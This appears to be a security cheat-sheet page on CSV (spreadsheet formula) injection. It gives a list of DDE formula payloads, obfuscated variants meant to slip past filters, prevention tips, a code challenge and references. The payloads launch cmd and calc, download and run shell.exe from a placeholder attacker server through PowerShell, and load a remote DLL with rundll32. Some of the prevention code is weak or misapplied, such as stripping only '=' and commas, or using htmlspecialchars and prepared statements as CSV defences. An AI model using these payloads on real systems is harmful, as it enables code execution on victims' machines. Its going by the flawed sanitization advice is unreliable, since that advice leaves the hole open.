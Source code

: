 # CSV Injection

Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel, Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.

## Exploit

Basic exploit with Dynamic Data Exchange

```powershell
# pop a calc
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0

# pop a notepad
=cmd|' /C notepad'!'A1'

# powershell download and execute
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0

# msf smb delivery with rundll32
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1

# Prefix obfuscation and command chaining
=AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
=cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
+thespanishinquisition(cmd|'/c calc.exe'!A
=         cmd|'/c calc.exe'!A

# Using rundll32 instead of cmd
=rundll32|'URL.dll,OpenURL calc.exe'!A
=rundll321234567890abcdefghijklmnopqrstuvwxyz|'URL.dll,OpenURL calc.exe'!A

# Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A

```

Technical Details of the above payload:

- `cmd` is the name the server can respond to whenever a client is trying to access the server
- `/C` calc is the file name which in our case is the calc(i.e the calc.exe)
- `!A0` is the item name that specifies unit of data that a server can respond when the client is requesting the data

Any formula can be started with

```powershell
=
+
–
@
```

## Prevention and Best Practices

- **Input Validation:** Validate and sanitize user input before allowing it to be included in CSV files. Proper input validation can prevent malicious data from being injected into the files.
  ```python
    import csv

  def sanitize_input(user_input):
      # Implement your sanitization logic here
      sanitized_input = user_input.replace(',', '').replace('=', '')
      return sanitized_input

  user_data = sanitize_input(user_input)
  with open('data.csv', 'w', newline='') as csvfile:
      csvwriter = csv.writer(csvfile)
      csvwriter.writerow([user_data, 'other_data'])
  ```
- **Output Encoding:** Implement output encoding to ensure that special characters are properly escaped before being included in CSV files. This prevents the execution of malicious commands.
  ```php
    function encode_for_csv($data) {
      return '"' . htmlspecialchars($data, ENT_QUOTES, 'UTF-8') . '"';
  }
  
  $user_data = encode_for_csv($user_input);
  $csv_content = $user_data . ',' . $other_data;
  file_put_contents('data.csv', $csv_content);
  ```
- **Use Prepared Statements:** If interacting with a database, use prepared statements to prevent SQL Injection, which could lead to CSV Injection vulnerabilities.
  ```php
  $stmt = $mysqli->prepare("INSERT INTO table_name (user_data, other_data) VALUES (?, ?)");
  $stmt->bind_param("ss", $user_input, $other_data);
  $stmt->execute();
  ```
- **Content Disposition Headers:** Set Content-Disposition headers with a safe filename when serving CSV files. This helps in preventing browsers from interpreting the CSV files as executable content.
  ```php
  header('Content-Disposition: attachment; filename="safe-file.csv"');
  ```
- **Whitelisting:** Maintain a whitelist of allowed characters and patterns for CSV files. Block any input that does not adhere to these rules.
- **Use Libraries:** Instead of manually generating CSV files, consider using established libraries specific to your programming language/framework. These libraries often handle special characters and encoding issues more effectively.

## Challenge Task
Identify and fix the CSV Injection vulnerability in the following code snippet
```php
$user_input = $_GET['data'];
$csv_content = $user_input . ',other_data';
file_put_contents('data.csv', $csv_content);
```

## References

* [OWASP - CSV Excel Macro Injection](https://owasp.org/www-community/attacks/CSV_Injection)
* [Google Bug Hunter University - CSV Excel formula injection](https://bughunters.google.com/learn/invalid-reports/google-products/4965108570390528/csv-formula-injection)
* [CSV INJECTION: BASIC TO EXPLOIT!!!! - 30/11/2017 - Akansha Kesharwani](https://payatu.com/csv-injection-basic-to-exploit/)
* [From CSV to Meterpreter - 5th November 2015 - Adam Chester](https://blog.xpnsec.com/from-csv-to-meterpreter/)
* [The Absurdly Underestimated Dangers of CSV Injection - 7 October, 2017 - George Mauer](http://georgemauer.net/2017/10/07/csv-injection.html)
* [Three New DDE Obfuscation Methods](https://blog.reversinglabs.com/blog/cvs-dde-exploits-and-obfuscation)
* [Your Excel Sheets Are Not Safe! Here's How to Beat CSV Injection](https://www.we45.com/post/your-excel-sheets-are-not-safe-heres-how-to-beat-csv-injection)

